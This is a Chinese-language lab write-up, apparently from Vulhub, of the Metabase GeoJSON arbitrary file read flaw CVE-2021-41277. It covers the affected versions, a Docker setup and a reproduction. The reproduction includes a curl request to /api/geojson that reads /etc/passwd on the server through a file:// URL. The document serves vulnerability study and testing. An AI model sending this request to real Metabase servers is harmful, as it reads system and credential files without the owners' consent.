


# Metabase任意文件读取漏洞 CVE-2021-41277

## 漏洞描述

Metabase是一个开源的数据分析平台。在其0.40.0到0.40.4版本中，GeoJSON URL验证功能存在远程文件读取漏洞，未授权的攻击者可以利用这个漏洞读取服务器上的任意文件，包括环境变量等。

参考链接：

- https://github.com/metabase/metabase/security/advisories/GHSA-w73v-6p7p-fpfr
- https://github.com/tahtaciburak/CVE-2021-41277

## 漏洞影响

```
metabase 0.40.0-0.40.4
```

## 环境搭建

Vulhub执行如下命令启动一个Metabase 0.40.4版本服务器：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:3000`可以查看到Metabase的安装引导页面，我们填写初始账号密码，并且跳过后续的数据库填写的步骤即可完成安装：



## 漏洞复现

执行以下命令读取`/etc/passwd`：

```
curl -v http://your-ip:3000/api/geojson?url=file:////etc/passwd
```

